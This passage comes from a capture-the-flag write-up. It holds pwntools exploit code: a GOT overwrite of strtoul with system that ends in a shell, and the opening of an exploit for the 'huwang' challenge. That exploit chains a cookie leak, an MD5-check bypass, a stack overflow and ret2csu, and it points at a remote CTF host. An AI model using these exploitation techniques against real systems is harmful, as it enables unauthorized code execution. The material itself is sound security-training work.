 ```python
add_money(p64(0xdeadbeef))
add_money(p64(0xdeadbeef))
add_money(p64(0xdeadbeef))
for i in range(17):
    add_money(p64(0xdeadbeef))
out()
elf.address=u64(edit(-47,"\x68").ljust(8,"\x00"))-0x202068
edit(-1,p64(0x202148+elf.address))
edit(-21,p64(elf.got["strtoul"]))

r.sendlineafter("Now, buy buy buy!\n","3")
r.sendlineafter("Which goods you need to modify?\n",str((-19)&0xffffffffffffffff))
r.recvuntil("OK, what would you like to modify ")
con=r.recvuntil(" to")[:-3]
libc.address=u64(con.ljust(8,"\x00"))-libc.sym["strtoul"]
r.send(p64(libc.sym["system"]))
r.sendline("/bin/sh\x00")
r.interactive()

```

## huwang
在隐藏菜单里输入name时内存越界可以泄露cookie，对轮数没有做检查，输入-1会导致循环卡死，这时再开起一个连接，/tmp/secret文件存在但是里面内容为空，即可通过md5的检查，进入内部的栈溢出函数，利用ret_to_csu leak出libc，然后拿到shell

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import hashlib
context.log_level="debug"
pwn_file="./huwang"
elf=ELF(pwn_file)
libc=elf.libc
pid=0
cookie=0
def hash(x):
    return hashlib.md5(x).hexdigest().decode("hex")
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
def get_cc():
    global pid
    if len(sys.argv)==1:
        r=process(pwn_file)
        pid=r.pid
    else:
        r=remote("49.4.79.184",30658)
        pid=0
    return r

def debug():
    log.debug("process pid:%d"%pid)
    log.debug("cookie:0x%x"%cookie)
    #log.debug("libc add:0x%x"%libc.add)
    pause()

def add(size,content):
    r.sendlineafter(">> \n","1")
    r.sendlineafter("size:",str(size))
    r.sendafter("content:",content)

```